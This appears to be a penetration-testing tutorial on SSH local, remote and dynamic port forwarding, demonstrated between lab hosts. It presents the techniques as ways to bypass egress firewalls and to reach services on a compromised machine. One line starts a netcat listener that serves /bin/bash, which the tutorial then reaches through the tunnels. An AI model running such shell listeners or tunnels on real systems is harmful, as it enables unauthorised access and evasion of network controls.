





# Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation.   
  
For example, if you have a host that you want to access but the egress firewall won't allow this, the below will help:

```csharp
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

All the traffic will flow through the SSH\_SERVER \(like a proxy\) which DOES have access to the host you want to access. Let's see an example.

#### On machine 10.0.0.5

The below reads: bind on a local port 9999 \(on a host 10.0.0.5\). Listen for any traffic coming to that port 9999 \(i.e 127.0.0.1:9999\) and forward all that traffic to the port 4444 on host 10.0.0.12:

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

We can see that the 127.0.0.1:9999 is now indeed listening:


#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins



#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:



The above indeed shows that we got a reverse shell from 10.0.0.12.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box which has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words - it exposes an otherwise obscured port to the host on the other end of the tunnel.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
```

The above suggests that any port sent to port 5555 on SSH\_SERVER will be forwarded to the port 3389 on the LOCAL\_HOST - the host with an obsucure service.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 \(not reachable to hosts from outside\):

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```


Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```text
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, please send it over to port 4444 on to this box \(10.0.0.12\).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:


Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:



## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding with ssh tunnels is:

```csharp
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

Which essentially means - bind port 8080 on localhost and any traffic that gets sent to this port, please just relay it to the SSH\_SERVER - I trust it to make the connections for me and send any data it sees back to me.

For the demo, let's check what is my current IP before the ssh tunnel is setup:


Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on a local machine \(10.0.0.5

```text
ssh -D9090 root@159.65.200.10
```


Checking network connections on the local host, we can see that the port 9090 is now exposed:


This means that if we send any traffic to 127.0.0.1:9090, it should use the other host of our ssh tunnel \(159.65.200.10\) as a proxy - 159.65.200.10 will make connections oin behalf of us and return any data it receives.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:



Now if we test what our IP is again, we can see that the we are indeed masquerading the internet as 159.65.200.10:





